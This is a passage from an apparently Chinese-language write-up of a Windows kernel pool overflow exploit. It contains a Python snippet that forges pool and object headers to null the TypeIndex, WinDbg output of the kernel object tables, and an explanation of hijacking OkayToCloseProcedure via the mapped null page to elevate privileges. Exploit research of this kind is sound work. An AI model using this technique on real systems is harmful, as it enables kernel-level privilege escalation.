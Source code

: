```
(0x460 – 0x8 – 0x1c + 0x2c) / 0x8 = 0x8d
```

也就是说，0x8d的大小会使缓冲区溢出0x2c（即44字节），并能损坏池的头部、引用和对象头。



```
# repair the allocated chunk header...
    input += struct.pack("&lt;I", 0x040c008c)     # _POOL_HEADER
    input += struct.pack("&lt;I", 0xef436f49)     # _POOL_HEADER (PoolTag)
    input += struct.pack("&lt;I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("&lt;I", 0x0000005c)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("&lt;I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("&lt;I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("&lt;I", 0x00000001)     # _OBJECT_HEADER (PointerCount)
    input += struct.pack("&lt;I", 0x00000001)     # _OBJECT_HEADER (HandleCount)
    input += struct.pack("&lt;I", 0x00000000)     # _OBJECT_HEADER (Lock)
    input += struct.pack("&lt;I", 0x00080000)     # _OBJECT_HEADER (TypeIndex)
    input += struct.pack("&lt;I", 0x00000000)     # _OBJECT_HEADER (ObjectCreateInfo)
```

当我们将到0x00080000（实际上是较小的一个值）的TypeIndex为null。这意味着，函数表会指向0x0，并且我们可以映射空页。



```
kd&gt; dd nt!ObTypeIndexTable L2
82b7dee0  00000000 bad0b0b0
```

请注意，这里的第二个索引是0xbad0b0b0。这样的方法同样可以用于x64系统。



**触发内核中的代码执行**

****

在触发了溢出后，它存活了下来。但为了获得eop，我们需要设置一个指向0x00000074的指针，以利用**OkayToCloseProcedure**函数指针。



```
kd&gt; dt nt!_OBJECT_TYPE name 84fc8040
   +0x008 Name : _UNICODE_STRING "IoCompletionReserve"
kd&gt; dt nt!_OBJECT_TYPE 84fc8040 .
   +0x000 TypeList         :  [ 0x84fc8040 - 0x84fc8040 ]
      +0x000 Flink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
      +0x004 Blink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
   +0x008 Name             :  "IoCompletionReserve"
      +0x000 Length           : 0x26
      +0x002 MaximumLength    : 0x28
      +0x004 Buffer           : 0x88c01090  "IoCompletionReserve"
   +0x010 DefaultObject    :
   +0x014 Index            : 0x0 ''                &lt;--- TypeIndex is 0x0
   +0x018 TotalNumberOfObjects : 0x61a9
   +0x01c TotalNumberOfHandles : 0x61a9
   +0x020 HighWaterNumberOfObjects : 0x61a9
   +0x024 HighWaterNumberOfHandles : 0x61a9
   +0x028 TypeInfo         :                       &lt;-- TypeInfo is offset 0x28 from 0x0
      +0x000 Length           : 0x50
      +0x002 ObjectTypeFlags  : 0x2 ''
      +0x002 CaseInsensitive  : 0y0
      +0x002 UnnamedObjectsOnly : 0y1
      +0x002 UseDefaultObject : 0y0
      +0x002 SecurityRequired : 0y0
      +0x002 MaintainHandleCount : 0y0
      +0x002 MaintainTypeList : 0y0
      +0x002 SupportsObjectCallbacks : 0y0
      +0x002 CacheAligned     : 0y0
```